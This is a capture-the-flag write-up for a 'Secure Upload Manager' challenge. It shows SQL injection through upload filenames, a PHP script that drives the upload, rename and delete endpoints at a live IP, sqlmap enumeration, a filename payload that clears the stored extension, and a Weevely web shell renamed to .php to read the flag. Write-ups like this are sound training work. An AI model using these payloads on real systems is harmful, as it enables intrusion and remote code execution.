# Secure Upload Manager



Try to upload file with single quote in a file name.



Try to rename it.



SQL Error



It can SQL injection with filename.

Write PHP payload to upload image , rename image and delete image.

```
<?php

$oldname = $_POST["oldname"];
$url = "http://34.142.233.148/upload.php";

// I guess the file is in the same directory as this script
$file = __DIR__.'\test.png'; 

$headers = [
    'Content-Type: multipart/form-data',
    'User-Agent: '.$_SERVER['HTTP_USER_AGENT'],
];

$fields = [
    'upfile' => new CURLFile($file, 'image/png', $oldname.'.png')
];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_POSTFIELDS, $fields);
$result0 = curl_exec($ch);

$ch2 = curl_init();
curl_setopt($ch2, CURLOPT_URL,            "http://34.142.233.148/rename.php" );
curl_setopt($ch2, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch2, CURLOPT_POST,           1 );
curl_setopt($ch2, CURLOPT_POSTFIELDS,     "oldname=".urlencode($oldname)."&newname=lmn" ); 
curl_setopt($ch2, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 

$result = curl_exec($ch2);

echo $result;


$ch3 = curl_init();
curl_setopt($ch3, CURLOPT_URL,            "http://34.142.233.148/delete.php" );
curl_setopt($ch3, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch3, CURLOPT_POST,           1 );
curl_setopt($ch3, CURLOPT_POSTFIELDS,     "filename=lmn" ); 
curl_setopt($ch3, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 
$result3 = curl_exec($ch3);
exit;
?>
```

Use SQL Map.



Get DB Name.



Get table name.



Get column name.



It has extension column.

The website rename the filename based on a data in database.

If I change extension column in database to "", you'll be able to rename a filetype.

I uploaded test3.jpg',extension='.jpg .

| filename               | extension |
| ---------------------- | --------- |
| test3.jpg',extension=' | jpg       |

I rename test3.jpg',extension=' (enter filename without extension in rename page) to aaa.jpg .

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |

After that, I created PHP Shell with Weevely.



Rename it to aaa.jpg and upload it.



| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |
| aaa      | jpg       |

Rename it to aaa.php .



| filename | extension |
| -------- | --------- |
| aaa.php  |           |
| aaa      | jpg       |

Locate to /upload/aaa.php and connect it with weevely.



Type env and you'll see a flag.


